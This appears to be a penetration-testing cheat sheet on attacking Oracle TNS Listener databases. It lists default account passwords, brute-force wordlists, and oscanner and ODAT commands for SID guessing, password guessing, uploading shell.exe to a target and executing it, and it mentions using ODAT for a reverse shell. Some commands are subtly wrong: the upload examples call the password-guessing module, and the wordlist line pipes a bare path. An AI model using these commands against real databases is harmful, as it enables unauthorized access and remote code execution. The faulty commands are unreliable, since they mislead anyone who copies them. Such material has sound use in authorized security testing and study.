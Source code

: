 # Oracle TNS Listener - 1521,1522,1529

## Oracle Information

Oracle database (Oracle DB) is a relational database management system (RDBMS) from the Oracle Corporation (from [here](https://www.techopedia.com/definition/8711/oracle-database)).

When enumerating Oracle, the first step is to contact the TNS-Listener, which is normally found on the default port (1521/TCP; secondary listeners can be found on ports 1522–1529).

```
1521/tcp open  oracle-tns    Oracle TNS Listener 9.2.0.1.0 (for 32-bit Windows)
1748/tcp open  oracle-tns    Oracle TNS Listener
```

## SQLPlus Authentication

To login using known credentials:

```
sqlplus <username>/<password>@<ip_address>/<SID>;
```

If the TNS Listener is on a non-default port (e.g. TCP/1522) :

```
sqlplus <username>/<password>@<ip_address>:<port>/<SID>;
```

If an **account has system database privileges (sysdba) or system operator (sysop)** you may wish to try the following:

```bash
sqlplus <username>/<password>@<ip_address>/<SID> 'as sysdba';
```

## **SID Bruteforce**

In order to use **oracle\_login **with **patator **you need to **install**:

```
pip3 install cx_Oracle --upgrade
```

### **Default Passwords**

Below are some of the default passwords associated with Oracle:

* **DBSNMP/DBSNMP **— Intelligent Agent uses this to talk to the db server (its some work to change it)
* **SYS/CHANGE\_ON\_INSTALL** — Default sysdba account before and including Oracle v9, as of version 10g this has to be different!
* **PCMS\_SYS/PCMS\_SYS** — Default x account
* **WMSYS/WMSYS** — Default x account
* **OUTLN/OUTLN** — Default x account
* **SCOTT/TIGER** — Default x account

### User/Pass bruteforce

Different tools offered **different user/pass lists** for oracle:

* **oscan:** _/usr/share/oscanner/accounts.default _(169 lines)
* **MSF-1:**_  from _admin/oracle/oracle\_login_  _/usr/share/metasploit-framework/data/wordlists/oracle\_default\_passwords.csv (598 lines)
* **MSF-2:** _from scanner/oracle/oracle\_login_  _/usr/share/metasploit-framework/data/wordlists/oracle\_default\_userpass.txt _(568 lines)
* **Nmap:**_ /usr/share/nmap/nselib/data/oracle-default-accounts.lst _(687 lines)

## oscanner

**Oscanner**, which will try to get some valid SID, and then it will brute-force for valid credentials and try to extract some information:

```bash
#apt install oscanner
oscanner -s <IP> -P <PORT>
```

## ODAT

{% embed url="https://github.com/quentinhardy/odat" %}

**ODAT** (Oracle Database Attacking Tool) is an open-source **penetration testing** tool that tests the security of **Oracle Databases remotely**.

Usage examples of ODAT:

* You have an Oracle database listening remotely and want to find valid **SIDs** and **credentials** in order to connect to the database
* You have a valid Oracle account on a database and want to **escalate your privileges** to become DBA or SYSDBA
* You have an Oracle account and you want to **execute system commands** (e.g. **reverse shell**) in order to move forward on the operating system hosting the database

Tested on Oracle Database **10g**, **11g**, **12c**, **18c,** and **19c**.

Your Oracle version:

```
ls /usr/local/lib/oracle
```

Wiki of ODAT:

{% embed url="https://github.com/quentinhardy/odat/wiki" %}

### Install ODAT

We can install ODAT with the following commands:

```
git clone https://github.com/quentinhardy/odat
cd odat
git submodule init
git submodule update
sudo apt-get install libaio1 python3-dev alien python3-pip
pip3 install cx_Oracle
```

As the victim machine is 64 bits, we downloaded the client basic SDK and SQLPlus from the Oracle website

```
mkdir isolation
cd isolation
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-basic-21.1.0.0.0-1.x86_64.rpm
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-sqlplus-21.1.0.0.0-1.x86_64.rpm
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-devel-21.1.0.0.0-1.x86_64.rpm
```

Now we convert the `.rpm` files into `.deb` files and install them:

```
alien --to-deb *.rpm
dpkg -i *.deb
```

We add the environment variables to the `.zshrc`:

```
ls /usr/lib/oracle

#Output
21

vi ~/.zshrc

export ORACLE_HOME=/usr/lib/oracle/21/client64/
export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
export PATH=${ORACLE_HOME}bin:$PATH
```

Let's check that everything has been installed well:

```
sqlplus64
python3 odat.py --help
```

### Find Valid Credentials

You can do SID guessing attack with the following command:

```
python3 odat.py sidguesser -s <IP>
```

Dictionary

```
/usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv | tr ' ' '/' | tail -n 50 > passwords.txt
```

After finding a valid SID:

```
python3 odat.py passwordguesser -s <IP> -d <SID> --accounts-file passwords.txt
```

### Upload Files

```
# No sysdba
python3 odat.py passwordguesser -s <IP> -d <SID> -U "username" -P "password" --putFile /Temp shell.exe shell.exe
# Use sysdba
python3 odat.py passwordguesser -s <IP> -d <SID> -U "username" -P "password" --putFile /Temp shell.exe shell.exe --sysdba
```

### Execute Commands

```
# No sysdba
python3 odat.py externaltable -s <IP> -d <SID> -U "username" -P "password" --exec /Temp/shell.exe
# Use sysdba
python3 odat.py externaltable -s <IP> -d <SID> -U "username" -P "password" --exec /Temp/shell.exe --sysdba
# Alternatively
./odat.py externaltable -s <IP> -U <username> -P <password> -d <SID> --exec "C:/windows/system32" "calc.exe"

```

